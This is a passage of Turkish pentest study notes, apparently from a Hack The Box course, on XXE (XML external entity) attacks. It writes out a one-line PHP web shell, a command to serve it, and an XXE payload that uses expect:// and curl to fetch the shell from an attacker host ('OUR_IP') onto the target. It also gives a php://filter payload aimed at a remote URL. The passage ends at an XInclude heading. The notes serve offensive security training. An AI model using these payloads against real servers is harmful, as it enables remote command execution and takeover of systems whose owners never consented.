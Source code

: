 ### 10- Web Shell Yükleme ile Remote Komut Yürütme

```shell-session
C4RT3L@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
C4RT3L@htb[/htb]$ sudo python3 -m http.server 80
```

Şimdi, web shell'imizi remote server'a indiren bir curl komutu çalıştırmak için aşağıdaki XML kodunu kullanabiliriz:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

Not: XML sözdizimini bozmamak için yukarıdaki XML kodundaki tüm boşlukları `$IFS` ile değiştirdik. Ayrıca, `|`, `>` ve `{` gibi diğer birçok karakter kodu bozabilir, bu nedenle bunları kullanmaktan kaçınmalıyız.


### 99- Alternatif PHP Wrapper (Çalışma Olasılığı Çok az)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

`php://filter` ile **remote bir HTTP kaynağını (`http://10.0.0.3`)** okutup, Base64 encode etmek.

- `php://filter` sadece **local dosyalar** için güvenilidir. Genellikle `resource=` kısmında remote bir URL kullanmak **çalışmaz** çünkü PHP `file_get_contents()` çağrısı altında bu kombinasyonu desteklemez.

- Bazı özel konfigürasyonlarda (örneğin `allow_url_fopen=On`) bu davranış **kısmî olarak çalışabilir**, ancak genelde bu payload **yanıltıcıdır veya test amaçlıdır**.

- Eğer hedef sistemde PHP wrapper’lar **gereğinden fazla esnek** şekilde yapılandırılmışsa.

- Saldırgan remote bir dosya yüklemişse (örneğin: kötü amaçlı bir `.php` dosyası) ve onu encode etmek istiyorsa.


### 99-XInclude Attacks

`DOCTYPE` elementini değiştiremediğinizde, hedeflemek için `XInclude` kullanın
